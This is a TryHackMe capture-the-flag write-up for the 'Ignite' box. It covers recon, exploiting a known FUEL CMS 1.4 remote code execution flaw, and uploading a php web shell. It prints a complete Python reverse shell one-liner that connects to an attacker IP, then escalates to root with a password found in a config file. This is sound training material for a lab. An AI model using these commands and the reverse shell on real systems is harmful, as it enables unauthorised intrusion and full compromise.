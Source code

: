 ```yaml
---
title: "Ignite"
categories: ["IT and Cyber Security"]
tags: ['TryHackMe']
date: 2021-01-03
---
```


## Tools and Commands

- nmap
- searchsploit
- python
- netcat

## Recon

Start with an nmap scan: `$ sudo nmap -A -oA nmap 10.10.194.158`

The only open port is 80, a Apache/2.4.18 web server. View the web page in a browser and we find it's the default page for FUEL CMS 1.4, which also gives us some basic info about the CMS.

A quick Gobuster scan gives us nothing particularly useful: `$ gobuster dir -u http://10.10.194.158 -w /usr/share/wordlists/dirb/common.txt`

While Gobuster was running, read the CMS page. We find many config files are located in "fuel/application/config/" (such as database.php and config.php), and near the bottom it mentions a login page, /fuel, and gives default creds. Check the page and we can log in with them with full admin rights!

Browsing the Dashboard we find a few Upload areas. These could be promising.

## Exploit to Shell

Before going into that, start simply. Checking Searchsploit with `$ searchsploit fuel` gives us "fuelCMS 1.4.1 - Remote Code Execution". Sounds good. Copy it to our working directory with `$ searchsploit -m linux/webapps/47138.py`

Edit the file so the URL in the Python script matches the box script. You'll also need to make sure Burp Suite is open, and turn off Intercept; alternatively, remove the two references to the proxy in the script.

Then run the Python script (using Python 2, as the script is incompatible with Python 3 - `$ python 47138.py`). You'll be presented with a `cmd:` prompt. Try some things, such as `cmd:ls` and `cmd:whoami` to determine you're in - note you'll have to scroll up past the rubbish to get the actual result.

## Upgrade the Shell

This shell is horrible, though, so let's try and upgrade it. There is a browser-based php shell called phpbash, available at [https://github.com/Arrexel/phpbash/blob/master/phpbash.php](https://github.com/Arrexel/phpbash/blob/master/phpbash.php). Download the raw script to your machine with `wget`, set up a local server with `$ python3 -m http.server 4444`, then download the file to the remote machine using `cmd:wget <your-THM-IP>:4444/phpbash.php`. Then, in a browser, visit http://10.10.194.158/phpbash.php and you get a better shell.

We can further improve the shell by making it a Python one, using a script from [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python). Change the script to include your IP, set up a netcat listener on your machine on port 4242 with `$ nc -lvnp 4242`, and when you run it (in the phpbash shell - it won't work in the `cmd` one) your netcat will give you a shell.

This is the Python reverse shell code: `www-data@ubuntu:/var/www/html#:python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.83.23",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

This shell can be further upgraded, first by running `$ python3 -c 'import pty;pty.spawn("/bin/bash")'`, then `$ export TERM=xterm`, backgrounding this shell with Ctrl-Z, then `$ stty raw -echo; fg`. This gives us a nice, stable, interactive shell :)

## Get the user flag

Now we can get the first flag with `www-data@ubuntu:/var/www/html$ cat /home/www-data/flag.txt`. However, access to root (`$ ls /root`) is unsurprisingly denied.

## PrivEsc

We'll need to privesc. `$ sudo -l` and `$ sudo -i` gives us nothing, and there are no SUIDs found with `$ find / -perm -u=s -type f 2>/dev/null` 

Let's check the config files earlier, especially as one of them mentioned usernames and passwords. Change directory with `$ cd fuel/application/config`, and then search all the files for the phrase "password" using grep: `$ grep -ni password *`.

One result looks interesting, line 80 of "database.php": `database.php:80: 'password' => 'mememe',`.

`$ cat database.php` and have a read about line 80 - it suggests the password is for root!

Try it with `$ su root` and the password, and success! We get a `#` shell, and `# whoami` confirms we're root. 

## Get the root flag

Now simply `# cat /root/root.txt`.